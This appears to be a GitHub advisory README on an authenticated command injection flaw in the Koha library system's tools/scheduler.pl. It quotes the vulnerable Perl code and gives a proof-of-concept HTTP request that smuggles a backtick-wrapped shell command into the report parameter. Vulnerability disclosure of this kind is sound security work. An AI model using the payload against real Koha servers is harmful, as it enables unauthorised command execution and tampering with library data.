 # Koha ILS Command Injection Vulnerability

This repository documents a command injection vulnerability in Koha Integrated Library System affecting versions prior to 24.05.07, 24.11.02, 23.11.12, and 22.11.24.

## Vulnerability Details

- **CVE ID**: CVE-YYYY-XXXXX (pending assignment)
- **Vulnerability Type**: Command Injection
- **CWE**: CWE-78 (Improper Neutralisation of Special Elements used in an OS Command)
- **Affected Component**: tools/scheduler.pl
- **Affected Versions**: 
  - < 24.05.07
  - < 24.11.02 
  - < 23.11.12
  - < 22.11.24

## Description

Koha Integrated Library System contains an authenticated command injection vulnerability in the task scheduler functionality. The vulnerability exists in `tools/scheduler.pl` where user input from the `$report` parameter is directly interpolated into a shell command without proper sanitisation. An authenticated administrator with access to the scheduler functionality can execute arbitrary commands on the server.

## Technical Details

The vulnerability is present in lines 92-94 of `tools/scheduler.pl`:

```perl
my $command =
      "export KOHA_CONF=\"$CONFIG_NAME\"; "
    . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
```

The `$report` variable comes from user input and undergoes flawed validation. The code converts the input to an integer to check if a report exists in the database, but then uses the original, unmodified string in the command. This allows an attacker to append shell metacharacters after a valid report ID to inject commands that will be executed on the server.

## Proof of Concept

The following HTTP request can be used to exploit the vulnerability:

```http
POST /cgi-bin/koha/tools/scheduler.pl HTTP/1.1
Host: [koha-instance]
Content-Type: application/x-www-form-urlencoded
Cookie: [authentication-cookies]

csrf_token=[token]&op=cud-add&starttime=16:33&startdate=&report=19012025```echo "RCE test" > /tmp/rce.txt```&format=text&email=test@example.com
```

This creates a file `/tmp/rce.txt` containing "RCE test" on the target server.

## Impact

This vulnerability allows an authenticated administrative user to:
- Execute arbitrary commands with the permissions of the web server user
- Access, modify, or delete library data
- Potentially gain further access to the host system

## Responsible Disclosure

This vulnerability was reported to the Koha project maintainers on [DATE], and has been fixed in the following releases:
- 24.05.07
- 24.11.02
- 23.11.12
- 22.11.24

## Timeline

- **Discovery**: 19/02/2025
- **Reported**: 19/02/2025
- **Fixed**: 27/02/2025
- **Public disclosure**: 27/02/2025

## Credit

Discovered by Craig Fairman

## References

1. https://bugs.koha-community.org/bugzilla3/show_bug.cgi?id=39170)

